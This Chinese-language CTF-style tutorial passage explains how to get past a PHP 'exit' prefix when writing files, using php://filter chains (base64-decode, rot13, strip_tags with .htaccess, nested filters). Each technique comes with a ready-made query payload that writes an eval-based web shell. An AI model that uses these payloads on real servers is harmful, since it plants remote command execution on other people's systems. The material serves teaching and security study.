 #### 利用base64

这个之前在P牛的文章里面有提到过。原文章链接:

`https://www.leavesongs.com/PENETRATION/php-filter-magic.html`

base64是每4个字符进行编码，这里的 php exit 一共 7个字符，我们需要手动添上一个字符，剩下的就是我们可控代码了。

`?filename=php://filter/write/convert.base64-decode/resource=1.php&content=XPD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs=`  (这里的X是手动添加为了和前面凑8个

![111.png](https://i.loli.net/2020/12/02/rXbgw1MVu6jyHKx.png)

#### 利用rot13

一个在线rot13编码解码的网站：

http://www.mxcz.net/tools/rot13.aspx

`?filename=php://filter/write=string.rot13/resource=2.php&content=<?cuc riny($_CBFG['pzq']);`

![112.png](https://i.loli.net/2020/12/02/tUKJwqIxC61O7s4.png)

可以发现成功写入shell，但是有个局限，如果开启了**php短标签**，这个就无效了。就会报错。

#### 利用string.strip_tags结合.htaccess

这个可以过滤掉PHP HTML标签  `<?php ?>` 中内容是可以直接吃完的。

如果是Apache服务器，我们可以配合`.htaccess`文件来包含文件:

`filename=php://filter/write=string.strip_tags/resource=.htaccess&content=>php_value%20auto_prepend_file%20D:\phpStudy\PHPTutorial\WWW\flag.php`

可以看到成功写入：

![113.png](https://i.loli.net/2020/12/02/kBcJiREuFwdAKS3.png)

然后访问：

![115.png](https://i.loli.net/2020/12/02/UTnmcHASvVEfZqg.png)

该方法适用：

*  PHP5版本可以，PHP7不行，7.3版本已废除这个标签
* apache环境
* 文件名以及路径已知

#### 过滤器编码组合

顾名思义，就是利用过滤器的**嵌套**，来实现我们的目的。

还是针对demo1的代码进行测试：

我们传入 `?filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=4.php&content=?>PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==`

![1.png](https://i.loli.net/2020/12/03/Aqis5nurS2KY9kI.png)


[转自Myon9s大佬的博客]: http://myangswhitehat.cn/	"http://myangswhitehat.cn/"
